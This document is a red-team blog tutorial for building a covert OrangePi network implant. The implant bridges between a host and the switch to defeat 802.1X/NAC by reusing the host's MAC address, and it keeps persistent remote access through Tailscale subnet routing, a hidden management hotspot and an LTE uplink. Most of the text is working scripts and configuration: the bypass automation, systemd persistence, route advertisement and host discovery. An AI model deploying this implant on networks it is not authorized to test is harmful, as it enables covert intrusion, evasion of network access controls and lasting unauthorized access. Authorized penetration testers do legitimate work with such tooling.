



During red-team engagements you don’t always get the luxury of working from your own laptop inside the target network. Sometimes you need something you can plant, walk away from, and reach later - a small device that quietly holds your foothold while you continue from anywhere else.
This project turns an OrangePi Zero3 into exactly that: a low-power implant that sits transparently between a host and the network socket, keeps the host’s connection alive across 802.1X/NAC checks, and gives me an encrypted way back in through Tailscale - with an optional LTE modem for sites where the wired network isn’t usable.
Base setup
The board runs Armbian (Debian 12) because it offers working SSH access out of the box.
Armbian images for Orange Pi - community builds with SSH access available from first boot.
- Flash the image to an SD card with balenaEtcher.
- Connect the board to the network and locate it with an
nmapscan. - Log in with the image’s default credentials (on first boot the root password is
1234), then set strong passwords for root and a dedicated user before deploying anything. - Create a management hotspot so the implant can be reached over Wi-Fi for SSH access and on-site troubleshooting.
apt update && apt install net-tools hostapdAdd a static IP for the wireless interface in
/etc/network/interfaces:auto wlan0 iface wlan0 inet static address 192.168.4.1 netmask 255.255.255.0hostapd config in /etc/hostapd/hostapd.conf
# This is the name of the WiFi interface we configured above interface=wlan0 # Use the nl80211 driver with the brcmfmac driver driver=nl80211 # This is the name of the network ssid=OrangePi-Ap # Use the 2.4GHz band hw_mode=g # Use channel 6 channel=6 # Enable 802.11n ieee80211n=1 # Enable WMM wmm_enabled=1 # Enable 40MHz channels with 20ns guard interval ht_capab=[HT40] #[SHORT-GI-20][DSSS_CCK-40] # Accept all MAC addresses macaddr_acl=0 # Use WPA authentication auth_algs=1 # Require clients to know the network name ignore_broadcast_ssid=0 # Use WPA2 wpa=2 # Use a pre-shared key wpa_key_mgmt=WPA-PSK # The network passphrase wpa_passphrase=<YOUR_AP_PASSPHRASE> # Use AES, instead of TKIP rsn_pairwise=CCMP - Restart networking, then enable and start hostapd:
systemctl restart networking.service unmask hostapd.service systemctl enable hostapd.service systemctl start hostapd.service - After a reboot the hotspot appears (SSID
OrangePi-Ap). Give the connecting device a static IP in192.168.4.0/24(for example192.168.4.2) and connect over SSH:ssh -l root 192.168.4.1
Out-of-band access with Tailscale
For a management channel that works from anywhere I use Tailscale. The setup below is based on the “Ultimate Tailscale Dropbox” approach from the Level1Techs forum, adapted for the implant.
- Install Tailscale and reboot:
curl -fsSL https://tailscale.com/install.sh | sh reboot - After the reboot, bring the tunnel up and log in with your Tailscale account. Then enable IP forwarding so the device can act as a subnet router:
tailscale up # log in with your Tailscale account sudo nano /etc/sysctl.conf # add the following to the file: net.ipv4.ip_forward=1 net.ipv6.conf.all.forwarding=1 sudo sysctl -p - Save this script as
/root/tailscale.sh- it detects the primary interface, derives the connected subnet, and advertises it as a Tailscale route:tailscale.sh
#!/bin/bash # Get the primary network interface's IP address and subnet PRIMARY_INTERFACE=$(ip route | grep '^default' | grep -oP '(?<=dev )(\S+)') # Fetch IPv4 address IPV4_ADDR=$(ip -4 addr show $PRIMARY_INTERFACE | grep 'inet\b' | awk '{print $2}' | head -n 1) # Calculate the network address from the IPv4 address IFS='.' read -ra ADDR <<< "$(echo $IPV4_ADDR | cut -d'/' -f1)" NETMASK=$(echo $IPV4_ADDR | cut -d'/' -f2) if [ "$NETMASK" == "24" ]; then NETWORK_ADDR="${ADDR[0]}.${ADDR[1]}.${ADDR[2]}.0/$NETMASK" elif [ "$NETMASK" == "16" ]; then NETWORK_ADDR="${ADDR[0]}.${ADDR[1]}.0.0/$NETMASK" elif [ "$NETMASK" == "8" ]; then NETWORK_ADDR="${ADDR[0]}.0.0.0/$NETMASK" else echo "Netmask not supported by the script." exit 1 fi # Check if IPv4 address is retrieved if [ -z "$IPV4_ADDR" ]; then echo "No IPv4 address found on the interface $PRIMARY_INTERFACE." exit 1 fi # Construct Tailscale command to advertise the IPv4 route ADVERTISE_CMD="sudo tailscale up --accept-routes --advertise-routes=$NETWORK_ADDR" # Execute Tailscale command echo "Executing command: $ADVERTISE_CMD" eval $ADVERTISE_CMDsudo chmod +x tailscale.sh - Create a systemd unit so it runs at boot:
service unit
[Unit] Description=Tailscale Dropbox Script [Service] Type=simple ExecStart=/root/tailscale.sh Restart=on-abort [Install] WantedBy=multi-user.target - From any device in the tailnet, reach the implant over its Tailscale IP:
ssh -l root <TAILNET_IP>
NAC bypass
Most corporate 802.1X and MAC-filtering setups make decisions based on the MAC address of the connected device. The scipag/nac_bypass script collection defeats this by bridging two interfaces: the implant sits between the approved host and the switch, and the upstream connection keeps using the host’s MAC - the network never sees the implant.
- Clone the repo:
git clone https://github.com/scipag/nac_bypass.git - Install the required packages:
apt install bridge-utils ethtool macchanger arptables ebtables iptables net-tools tcpdump - Load the kernel module:
modprobe br_netfilter - Persist it across reboots:
sudo nano /etc/modules # add to file: br_netfilter # confirm it is loaded: lsmod | grep br_netfilter - Patch
nac_bypass_setup.shso DNS configuration in/etc/resolv.confis restored on every run. Add this line at the end of the script:grep -q "nameserver 8.8.8.8" /etc/resolv.conf || echo "nameserver 8.8.8.8" >> /etc/resolv.conf - I also hit some NTP issues - a date mismatch between the Tailscale certificate and the board. Fix:
sudo apt install ntpdate -y sudo ntpdate pool.ntp.org - Test the bypass with the setup script:
./nac_bypass_setup.sh -1 end0 -2 enx00249b1705ad -aFor testing I used an OpenWRT router with MAC filtering that only allowed my laptop’s MAC address:

OpenWRT firewall rules: allow the upstream host’s MAC, reject every other device (MAC redacted). - Test scenarios, running the tool manually (no service yet):
- Unplug the host for a while and plug it back in - the bypass keeps working.
- Unplug the uplink and reconnect - keeps working.
- Use it on a network without NAC or MAC filtering - keeps working.
- Switch networks, for example trying multiple ports during an assessment - works, but required the script change in step 9.
- Caveats: the implant must be planted between the host’s primary interface and the network - if the host has another interface it uses, it won’t work. It must also sit between two devices; otherwise the script keeps running with nothing to bridge. The bypass can be disabled through the hotspot:
systemctl disable nac_bypass.service reboot
- To make the bypass happen automatically I modified the repo’s
awareness.shinto anauto.sh: the interface names match this hardware, and adhclientcall probes for a fresh DHCP lease when the uplink reconnects (useful when moving to a new switch):auto.sh
#!/bin/bash # awareness.sh # Monitor an interface and reconfigure NAC bypass bridge automatically VERSION="0.2" IFACE1="end0" # uplink (to corporate switch) IFACE2="enx00249b1705ad" # client-facing NIC STATE_INTERFACE=0 STATE_COUNTER=0 THRESHOLD_UP=3 THRESHOLD_DOWN=5 TIMER="5s" SCRIPT_DIR=$(dirname "$(readlink -f "$0")") usage() { echo "$0 v$VERSION usage:" echo " -1 <if1> uplink interface (to NAC switch)" echo " -2 <if2> client interface (to victim/host)" echo " -h show this help" exit 0 } # Parse args while getopts ":h1:2:" opt; do case "$opt" in 1) IFACE1=$OPTARG ;; 2) IFACE2=$OPTARG ;; h) usage ;; esac done echo "[*] Monitoring $IFACE1, bridging with $IFACE2" # Initial setup bash "${SCRIPT_DIR}/nac_bypass_setup.sh" -1 "$IFACE1" -2 "$IFACE2" -a # Loop while true; do if [ ! -f "/sys/class/net/$IFACE1/carrier" ]; then echo "[!] $IFACE1 does not exist!" sleep $TIMER continue fi NETSTATE=$(cat "/sys/class/net/$IFACE1/carrier") if [ "$NETSTATE" -ne "$STATE_INTERFACE" ]; then STATE_COUNTER=0 if [ "$NETSTATE" -eq 1 ]; then echo "[!] $IFACE1 is now up!" else echo "[!] $IFACE1 is now down!" fi else if [ "$STATE_COUNTER" -eq "$THRESHOLD_UP" ] && [ "$NETSTATE" -eq 1 ]; then echo "[!!] Applying NAC bypass config" bash "${SCRIPT_DIR}/nac_bypass_setup.sh" -1 "$IFACE1" -2 "$IFACE2" -a -c sleep 5 dhclient -v br0 elif [ "$STATE_COUNTER" -eq "$THRESHOLD_DOWN" ] && [ "$NETSTATE" -eq 0 ]; then echo "[!!] Resetting NAC bypass config" bash "${SCRIPT_DIR}/nac_bypass_setup.sh" -1 "$IFACE1" -2 "$IFACE2" -a -r bash "${SCRIPT_DIR}/nac_bypass_setup.sh" -1 "$IFACE1" -2 "$IFACE2" -a sleep 5 dhclient -v br0 fi echo "[*] Waiting..." ((STATE_COUNTER++)) fi STATE_INTERFACE=$NETSTATE sleep $TIMER done - Create a systemd service so the NAC bypass starts on boot:
sudo nano /etc/systemd/system/nac_bypass.service systemctl enable nac_bypass.service systemctl start nac_bypass.service # check logs systemctl status nac_bypass.servicenac_bypass.service
[Unit] Description=Nac bypass auto script [Service] Type=simple ExecStart=/root/nac_bypass/auto.sh Restart=on-abort [Install] WantedBy=multi-user.target
Tailscale subnet tunnel
Once the device is planted, SSH into it, check the available subnets, and advertise the target network as a Tailscale route. That removes the need for additional tunneling such as SSH port forwarding:
sudo tailscale up --advertise-routes=192.168.1.0/24 --accept-routesApprove the route in the Tailscale admin console:


Any device connected to the tailnet can now reach hosts in the advertised subnet.
Extra hardening
- Make the hotspot invisible: add
ignore_broadcast_ssid=1to/etc/hostapd/hostapd.conf. - Use a strong AP passphrase: replace the default in
/etc/hostapd/hostapd.confwith a long random value (withheld here).
Cheat sheet
The implant uses a transparent bridge, so the target subnet isn’t visible on its own interfaces. To discover hosts, rely on broadcast traffic instead:
# using tcpdump & arp commands
tcpdump -i br0 -n arp
# using arp-scan
sudo arp-scan --interface=br0 --localnetIf the Pi itself has no internet access, a DHCP probe may be needed:
dhclient -v br0
Internet Systems Consortium DHCP Client 4.4.3-P1
Copyright 2004-2022 Internet Systems Consortium.
All rights reserved.
For info, please visit https://www.isc.org/software/dhcp/
Listening on LPF/br0/02:00:23:e4:e6:bc
Sending on LPF/br0/02:00:23:e4:e6:bc
Sending on Socket/fallback
DHCPDISCOVER on br0 to 255.255.255.255 port 67 interval 8
DHCPOFFER of 10.X.Y.Z from 10.X.Y.W
DHCPREQUEST for 10.X.Y.Z on br0 to 255.255.255.255 port 67
DHCPACK of 10.X.Y.Z from 10.X.Y.W
bound to 10.X.Y.Z -- renewal in 36962 seconds.
root@orangepizero3:~# ping 8.8.8.8
PING 8.8.8.8 (8.8.8.8): 56 data bytes
64 bytes from 8.8.8.8: icmp_seq=0 ttl=112 time=12.597 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=12.757 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=12.484 msCheck the logs of the NAC service:
journalctl -u nac_bypass.serviceTailscale debugging (account details redacted):
# check service logs
journalctl -u myscript.service
# check tailscale status
100.X.Y.Z user1@example.com linux -
100.X.Y.Z user1@example.com macOS idle
100.X.Y.Z user1@example.com iOS offline
100.X.Y.Z user2@example.com macOS offline
100.X.Y.Z user3@example.com linux offline
# in case of NTP issues sync the date Hotspot, for debug and access over the AP:
SSID:
OrangePi-Ap
PW:
<YOUR_AP_PASSPHRASE>
Set static IP:
192.168.4.2
255.255.255.0
Type:
WPA-2Optional LTE uplink
For sites where I can’t (or don’t want to) use the wired network, a Huawei HiLink LTE USB modem gives the implant its own uplink.
- Install the packages:
sudo apt install usb-modeswitch modemmanager lsof \ network-manager ppp minicom - Check that the interface appears and use
dhclientto get a lease:dhclient <interface> -v - Query the modem API to check the SIM status:
root@orangepizero3:~# curl -s http://192.168.8.1/api/pin/status <?xml version="1.0" encoding="UTF-8"?> <response> <SimState>255</SimState> <PinOptState>258</PinOptState> <SimPinTimes>0</SimPinTimes> <SimPukTimes>0</SimPukTimes> <Checkboxchecked>1</Checkboxchecked> <needsynccfg>1</needsynccfg> </response> - The modem’s admin interface lives on its own subnet. Reach it through a SOCKS proxy over the hotspot SSH:
ssh -D 8080 root@192.168.4.1Point the browser (FoxyProxy, SOCKS5) at the proxy - the interface at
https://192.168.8.1should now be reachable. - Enter the SIM PIN once and check that it works. The PIN is stored and survives reboots.
- Enable auto-connect so the connection survives reboots or modem resets:
# check devices nmcli conn show # auto connect nmcli connection modify "Wired connection 3" connection.autoconnect yes # test connection root@orangepizero3:~# curl --interface enxf6b00167f6b0 ifconfig.me 2a02:a020:xxxx:xxxx:xxxx:xxxx:xxxx:xxxxImportant: make sure the board gets enough power - use a 2400 mAh+ power adapter, or the modem will brown out during attach.
- For some reason the LTE interface doesn’t pick up a DHCP lease automatically after boot, so I created a systemd service for it. The script looks for interfaces driven by
cdc_ether(the MAC and name change on every boot):4g_dhcp.sh
#!/bin/bash while true; do # Find interfaces with cdc_ether driver IF=$(for i in /sys/class/net/*; do drv=$(readlink $i/device/driver) if [ "$(basename $drv)" == "cdc_ether" ]; then echo $(basename $i) fi done) if [ -n "$IF" ]; then echo "Found Huawei HiLink interface $IF, requesting DHCP..." sudo dhclient -v $IF exit 0 else echo "No Huawei interface found, retrying..." sleep 3 fi done4g-dhcp.service
# sudo nano /etc/systemd/system/4g-dhcp.service [Unit] Description=Huawei HiLink auto DHCP After=network.target [Service] Type=simple ExecStart=/root/4g_dhcp.sh Restart=always RestartSec=5s [Install] WantedBy=multi-user.targetenable the service and reboot
systemctl enable 4g-dhcp.service reboot